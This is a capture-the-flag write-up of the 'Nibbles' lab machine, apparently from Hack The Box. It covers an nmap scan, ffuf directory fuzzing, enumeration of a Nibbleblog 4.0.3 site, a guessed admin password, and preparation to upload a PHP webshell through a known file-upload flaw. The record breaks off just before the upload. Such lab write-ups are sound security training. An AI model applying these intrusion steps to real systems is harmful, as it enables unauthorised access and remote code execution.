# Nibbles - Easy Box

## Nmap Scan Results

```
sudo nmap -p- -T4 -sVC -oA nmap/nibbles 10.129.50.102
# Nmap 7.95 scan initiated Thu Aug 27 18:23:18 2026 as: nmap -p- -T4 -sVC -vvv -oA nmap/nibbles 10.129.49.63
Nmap scan report for 10.129.49.63
Host is up, received echo-reply ttl 63 (0.015s latency).
Scanned at 2026-08-27 18:23:18 EDT for 19s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQD8ArTOHWzqhwcyAZWc2CmxfLmVVTwfLZf0zhCBREGCpS2WC3NhAKQ2zefCHCU8XTC8hY9ta5ocU+p7S52OGHlaG7HuA5Xlnihl1INNsMX7gpNcfQEYnyby+hjHWPLo4++fAyO/lB8NammyA13MzvJy8pxvB9gmCJhVPaFzG5yX6Ly8OIsvVDk+qVa5eLCIua1E7WGACUlmkEGljDvzOaBdogMQZ8TGBTqNZbShnFH1WsUxBtJNRtYfeeGjztKTQqqj4WD5atU8dqV/iwmTylpE7wdHZ+38ckuYL9dmUPLh4Li2ZgdY6XniVOBGthY5a2uJ2OFp2xe1WS9KvbYjJ/tH
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPiFJd2F35NPKIQxKMHrgPzVzoNHOJtTtM+zlwVfxzvcXPFFuQrOL7X6Mi9YQF9QRVJpwtmV9KAtWltmk3qm4oc=
|   256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC/RjKhT/2YPlCgFQLx+gOXhC6W3A3raTzjlXQMT8Msk
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Aug 27 18:23:37 2026 -- 1 IP address (1 host up) scanned in 19.14 seconds
```

Since the nmap scan found only 2 open services on the box, ssh & http, the only place to start looking was the web application only.



Since there was nothing on the home page of the web application other than a simple `Hello world!` text, I took a look at the page source to see if I can find anything interesting there.



Interestingly enough, the page source revealed that we are not gonna find anything interesting here & mentions `/nibbleblog/` directory. However, when I tried to visit the directory, the page was just refreshing infinitely. Therefore, I decided to run a directory fuzzing scan using the tool `FFUF`.

```
ffuf -u http://10.129.50.102/nibbleblog/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -ic -c

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.50.102/nibbleblog/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

content                 [Status: 301, Size: 327, Words: 20, Lines: 10, Duration: 48ms]
themes                  [Status: 301, Size: 326, Words: 20, Lines: 10, Duration: 59ms]
admin                   [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 115ms]
plugins                 [Status: 301, Size: 327, Words: 20, Lines: 10, Duration: 59ms]
languages               [Status: 301, Size: 329, Words: 20, Lines: 10, Duration: 61ms]
:: Progress: [220547/220547] :: Job [1/1] :: 738 req/sec :: Duration: [0:06:20] :: Errors: 3 ::
```

The directory fuzzing scan discovered a yet another interesting directory inside `/nibbleblog/` directory on the web application, the `admin` directory. So I went ahead & visited the `/nibbleblog/admin/` directory on the web application.



Unfortunately, I didn't see anything interesting in the `/nibblebog/admin/` directory, so I went back & visited the `/nibbleblog/content` directory.



There were 3 more directories inside the `/nibbleblog/content/` directory as well, `private`, `public` & `tmp`. The one that stood out the most to me was the `tmp` directory, so I went ahead & checked what's in there.



However, I didn't find anything at all there. Then, I tried to see if the directory `public` has anything interesting or not.



Turns out even the `public` directory has some more directories in it, & the directories `comments`, `pages` & `posts` were empty as well. Whereas the `upload` directory had a few images in it, which didn't seem quite interesting to me. However, I took a mental note to self to come back & visit the `/nibbleblog/content/public/upload/` directory if I get stuck in the future. Now, the only directory of which I still didn't see the contents of was `private`.



Turns out, the `/nibbleblog/content/private/` directory has a lot of `XML` & `PHP` files present on it. So, I quickly went ahead & ran the directory fuzzing scan again, but this time I also added these extensions to it.

```
ffuf -u http://10.129.50.102/nibbleblog/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -ic -c -e .php,.xml

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.50.102/nibbleblog/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Extensions       : .php
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

sitemap.php             [Status: 200, Size: 402, Words: 33, Lines: 11, Duration: 77ms]
content                 [Status: 301, Size: 327, Words: 20, Lines: 10, Duration: 71ms]
themes                  [Status: 301, Size: 326, Words: 20, Lines: 10, Duration: 52ms]
feed.php                [Status: 200, Size: 302, Words: 8, Lines: 8, Duration: 58ms]
admin                   [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 49ms]
admin.php               [Status: 200, Size: 1401, Words: 79, Lines: 27, Duration: 73ms]
.php                    [Status: 403, Size: 303, Words: 22, Lines: 12, Duration: 3068ms]
plugins                 [Status: 301, Size: 327, Words: 20, Lines: 10, Duration: 54ms]
install.php             [Status: 200, Size: 78, Words: 11, Lines: 1, Duration: 72ms]
update.php              [Status: 200, Size: 1622, Words: 103, Lines: 88, Duration: 73ms]
languages               [Status: 301, Size: 329, Words: 20, Lines: 10, Duration: 54ms]
.php                    [Status: 403, Size: 303, Words: 22, Lines: 12, Duration: 66ms]
:: Progress: [661641/661641] :: Job [1/1] :: 518 req/sec :: Duration: [0:12:29] :: Errors: 4 ::
```

While the scan ran in the background, I took a look at each & every file present in the `private` directory & got the following:

- `categories.xml`: revealed the presence of categories, one being Music & the other being Video.
- `users.xml`: revealed the presence of the user `admin` & also revealed that the web application is using some sort of blacklisting mechanism, which means I shouldn't try to bruteforce the password for the `admin` user or I might get my IP blocked otherwise.

Now that I have manually enumerated all the child directories of `/nibbleblog/` directory, it was time to go back to my directory fuzzing scan & see what did it find. Turns out, the fuzzing scan has discovered a lot of files ending in the `.php` extension, so, I tried visiting each & every one of them to see if there's anything interesting in there.






The `upload.php` file revealed the version of `Nibbleblog` being used, i.e., `Nibbleblog 4.0.3`. So, I went ahead & searched for any public exploits available for the specific version of `Nibbleblog`.



Turns out, there is indeed a public exploit available for `Nibbleblog 4.0.3` & this specific version is vulnerable to `Arbitrary File Upload` vulnerability which eventually leads to `Remote Code Execution`.



However, on reading the metasploit module's code, I found out that I need an authenticated user on the web application in order to perform the attack & since there was only 1 user on the web application, the web applicatoin had a pretty good probability of using the default password for the `admin` user. Therefore, I searched for default credentials of `Nibbleblog` & I found out that there is no default password for the `admin` user for `Nibbleblog`.

After trying everything I can to find the login credentials of the `admin` user, I didn't know where else to look at, cause I have tried everything I had in my arsenal. Therefore, I took help from `IppSec`'s walkthrough in which he just guessed the password of the `admin` user, which turned out to be `nibbles`, which was same as the name of the box.

## NOTE: I had to switch to the Pwnbox cause I wasn't able to render `/nibbleblog/` & `/nibbleblog/admin.php` on my parrot os virtual machine.

## Continuation

Now that I know the credentials for the `admin` user, I can proceed to login on the `/nibbleblog/admin.php` endpoint with the password `nibbles` & can finally proceed with the exploitation of the `Arbitrary File Upload` vulnerability.



I downloaded the `easy-simple-php-webshell.php` from https://gist.githubusercontent.com/joswr1ght/22f40787de19d80d110b37fb79ac3985/raw/c871f130a12e97090a08d0ab855c1b7a93ef1150/easy-simple-php-webshell.php & saved it as `webshell.php` on the desktop.

```
$ pwd
/home/akku129/Desktop
$ ls -lah webshell.php
-rw-rw-r-- 1 akku129 akku129 317 Aug 30 19:56 webshell.php
```



As explained in the description, `Nibbleblog` <= 4.0.5 allows the administrators to execute arbitrary code by uploading a file with an executable extension, i.e., `.php`, & we can access it in the `/nibbleblog/content/private/plugins/my_image/` directory on the web application. So, let's do the same & see if we can access the webshell.

